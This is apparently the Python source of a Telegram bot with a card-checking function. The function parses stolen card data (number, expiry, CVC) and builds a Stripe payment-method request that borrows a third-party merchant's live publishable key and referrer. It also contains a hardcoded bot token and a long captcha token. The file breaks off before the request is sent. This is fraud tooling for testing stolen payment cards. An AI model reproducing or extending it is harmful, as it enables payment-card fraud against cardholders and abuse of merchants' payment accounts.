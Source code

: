 import requests
import telebot
from telebot import types
from datetime import datetime, timedelta
import time
import json
from datetime import datetime, timedelta
import datetime
import time
token ='8074042039:AAGNomkqKAjL0kPTyj4z-bmtn_8Dqy5LNBk'
bot=telebot.TeleBot(token,parse_mode="HTML")
def StripeChargebot(ccx):
	import requests
	import time
	ccx=ccx.strip()
	c = ccx.split("|")[0]
	mm= ccx.split("|")[1]
	yy = ccx.split("|")[2]
	cvc = ccx.split("|")[3]
	if "20" in yy:
		yy = yy.split("20")[1]
	time.sleep(3)
	headers = {
    'sec-ch-ua': '"Not-A.Brand";v="99", "Chromium";v="124"',
    'Accept': 'application/json',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Referer': 'https://js.stripe.com/',
    'sec-ch-ua-mobile': '?1',
    'User-Agent': 'Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Mobile Safari/537.36',
    'sec-ch-ua-platform': '"Android"',
}

	data = f'type=card&billing_details[name]=yusuf&card[number]={c}&card[cvc]={cvc}&card[exp_month]={mm}&card[exp_year]={yy}&guid=ec00e8d1-c512-4053-9a01-45f02b22c6ebd05330&muid=070b51ab-af54-48a9-9bb3-c839cf612ad9cc2d12&sid=e5761279-6e4b-4a94-b9d0-6a2912f6be1b9e3827&payment_user_agent=stripe.js%2F7c4530bc8b%3B+stripe-js-v3%2F7c4530bc8b%3B+split-card-element&referrer=https%3A%2F%2Fwww.happyscribe.com&time_on_page=34223&key=pk_live_cWpWkzb5pn3JT96pARlEkb7S&radar_options[hcaptcha_token]=P1_eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.hadwYXNza2V5xQZpWIzvedNJimC2YmM8_PHpVj87TDHfiH02_eX3K9jRXaXJxrvwEb8Y7VpbrJgW2Uw3JptNsHwRtULWdnkSqoRIFNivY4LsCnvYk1hsu7cKNDnJeo-mw07tkf0Ypx9pvBUz3xsjeKGP-CuXddiYGXT-bXj0kFr2Hs2fBRVaNxYqIT7CEUTLZRwueaZxlnbeEHGFCoedQyBCmOjMWOafo7onF1xSfEFyBQ2PCpRBfWQoIctfufn9AHodQ7-t2dg_xRGmPT1-BO8jVYFRDPBu7uRXG_Oeo7WZdXDZWHJQ54Vt55o1fao8V1E9BMHZxnfS70Yya9ANWNE4WlrZxHTP41C3OHPQSvMPxHN-6Lr5-9fhqxH6UQICAes_etb5Zl_E_UykxYut38NfKxKD7g5TsSGmBbOyU-jerng3x0T9NoiDOY5vUja0zeLQ0xAuz6BJWm_G_IxxCuKvFjFEfFwjyGbcXW9i-L0ACHGgyJiCfxXWRoBtip30C8SoxFIUYqlZx4WtcW9L-pK5JWeSS_vAUne-IvX7tyOyola8PkwqTUW_wIh2D9-8lADvQKs8KH1_OcHv39uH37IN8Ts0S4Je59tAuMypYeVGzBIN3v0EGolQ8HD0VwZfHRZ645EdhhvUXB1_aJogVbEOLsk8aENk8WpuI_vi7dRHWUGkvQFwoj7cpAecUoxefMdvg_zKVMrMaTUZuYzWgQa6j96YXt-zE5xxGq4sT73NwxagxVgnCA4yOTw2RraNCoAqCA8XIUpaXVBasOSHvhtUR9v1M9ue8Jxs9QGxMxY3mBfLAqY2XqZZbFoPGB5Qa18RkzgblYmQloGM_eMHvN-9uhAVWn959EKc-RirNyhwnS3lTVbfQFc7CFUB1RZqWdWu25XXujsZ5-0G-RO0fu06MV4Q3W8sm5KzmnZubeuBhC1VtODqSxpgg0JW7amEzn_WnfCP73AkrORBkzKmD-JQdFJyNuFAmyrUbrQ3KR1cLFTU9k4UcWnMuqXiwLD8LWsjWXDGM-o377wntT2917rEYW78_P9PXBF1AlkMzNka8Bwaz7SS_1iaejWGllLBqpPZNB_8Pv3LGNffMHitNHF7MlGuhmLRi0U7bhKiJpEMI_3EunTiJSgM0R037L4H5L0HJWtKdUNz78fNh5eVSF5xhDN6K401ZROE3IoZL-0YCPhtEFD567_TWUlEo7dwI6MxrH8Og1npa-5iA03EM42vPSUvLZGWZ6AhVV6n9LOlTETR40ResvEOIBDQeENUFQMYqr2-V5_NYjAClNK9MvLGVNE_cg9QbNCcHxkSEoL919SdUQ8EqB0Ow8SNpeHOc6fIcFrKbw0E_duLBrlnTkQFHIr9LfWHmUf7MRb7O7ZpxX1whMzNNmheBiFgeU0Wk0RJwdcH9qdrnkH-xe1zWHDTZFRHZu9rsAnmU0GZvc3RKZCBgTQKD57X9BeFXQ0vfGN7K0cKTnCXD6RbJolbNy74CCGwQiYwSxFpNLLLMD4FvsNxrzIQkDS_Tje9KCnRo-mbHWSuGowCbxPp0zLPgIAys0_lgob_qY_m8TfLVskY7Rws-TguaK3lyyTTxci7lR6QjaBkqujDgSED7eGiVSLbdj5K5VxnABnNhMDyeh6KnnDU1dQKK_BjHh6uNipam8Cvd4UaBl7vt-enozGGri6o8_sMsWJzTSmqIh9D2rhj5uU_yDXVujGfLjsEVxb0Pl8ckSwlMProPj3qUQlPZxtHa7qJKZLukl6n2F_hL6SZrl2_RqLDCGdNca0ihRNbTCwJ3h0WZ0wrx11S9ivTyXCqAr4N2GwGapFNZl-0YFiAoPlzThcmg9--KQGimYsXYlPT0EBlmQgjpPaCDVZEttOXzHORebYZenwFBliFQ74N1Ywe7XfKaPpdYgQt_iz1JhG60T0f_bl4CPPVnfAmqCyJyb6PtZ_l1Q4GH0zHhJZOcW4ZCox6OQaSEEbTUDzX9Ym8fF4qS3gbmcK8hURrxDd35DbkEnIaCiJ6Wp7Z4myYhUBuQRhmptEGyDbeG7esmKDOMm1t8lUibYVdBXKOfVsCALfTfdTKMvSTkrO1vZsY8OVz6H0aJVtd5EQ1F2vwh1FmK4Shh99PVe8NYuuD875zQWZQ5G_SVAPsZbrDHmmhnyHD-_B7de4yKiKxGnlcFQNmHhNyW5wqqZFmxByXs63V8kW7o2V4cM5mNsJAqHNoYXJkX2lkzhQ8hB-ia3KoMWYzNDEzYzWicGQA.Ve3_iKk831BYCZnTHmuJClr2wfupKYsq57OLjjs5Txs'
